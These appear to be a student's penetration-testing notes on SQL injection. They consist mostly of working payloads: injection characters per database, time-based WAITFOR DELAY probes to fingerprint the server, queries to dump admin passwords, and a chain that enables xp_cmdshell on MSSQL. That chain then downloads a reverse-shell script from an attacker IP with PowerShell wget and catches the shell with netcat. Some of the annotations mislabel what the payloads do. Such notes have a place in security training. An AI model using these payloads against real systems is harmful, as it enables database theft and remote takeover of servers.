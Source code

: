 - Characters to try for injection:
- `'` MSSQL, MySQL, PostgreSQL, Oracle, SQLite, IBM DB2, Microsoft Access, SAP HANA, MariaDB
	- Hex: `0x22`
	- Unicode: `\u0027`
- `"` MySQL, PostgreSQL, SQLite
- `backtick` MySQL, MariaDB
- `\` MySQL for escaping
- `;` terminate queries for most DBMSs
- `--` comment for MSSQL, MySQL, PostgreSQL, Oracle
- `#` comment for MySQL
`'` in username field leads to error so SQL injection
`'; WAITFOR DELAY '00:00:05'--`
- caused 5 second delay so time-based sql
`' OR 1=1 in (SELECT * FROM users) -- //
- drop users table
`' or 1=1 in (SELECT password FROM users) -- //`
- drop password from users table
`' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //`
- dump admin password

To query database version:
Oracle`SELECT banner FROM v$version   SELECT version FROM v$instance`
Microsoft`SELECT @@version`
PostgreSQL`SELECT version()`
MySQL`SELECT @@version`

Time-based:
`'; IF SUBSTRING(@@version, 1, 1) = 'M' BEGIN WAITFOR DELAY '00:00:03' END; -- -`
- causes delay so we know version starts with M
- There are three DBMSs that I can think of which start with M. So if the above command doesn't make the site hang for three seconds, you can also try `'; IF SUBSTRING(@@version, 1, 2) = 'My' BEGIN WAITFOR DELAY '00:00:03' END; -- -`
	- no delay so not MySQL

`'; IF SUBSTRING(@@version, 1, 9) = 'Microsoft' BEGIN WAITFOR DELAY '00:00:03' END; -- -`
- causes delay so we know its microsoft SQL server
- Now that you know it's Microsoft SQL Server, you can tailor your attack the same way. The training material shows that we can enable xp_cmdshell if it isn't already with this command `'; EXECUTE sp_configure 'show advanced options', 1; RECONFIGURE; EXECUTE sp_configure 'xp_cmdshell', 1; RECONFIGURE; -- -`
- Once that's done, you can execute commands with `'; EXECUTE xp_cmdshell "" -- -` and enter the commands you'd like in the `" "`
	- `'; EXECUTE xp_cmdshell "powershell.exe wget http://192.168.45.210/info.txt -OutFile c:\\Users\Public\\info.txt" -- -`
		 - executes command from sql injected machine to request info.txt from my `python -m http.server 80`
			- should see the request (regardless if the file is there, will get 404)
`'; EXECUTE xp_cmdshell "powershell.exe wget http://192.168.45.248/revshell.ps1 -OutFile c:\\Users\Public\\revshell.ps1" -- -`
- should see request so we know file is uploaded
`'; EXECUTE xp_cmdshell "powershell.exe c:\\Users\Public\\revshell.ps1" -- -`
- will see connection on nc -lvnp 6969
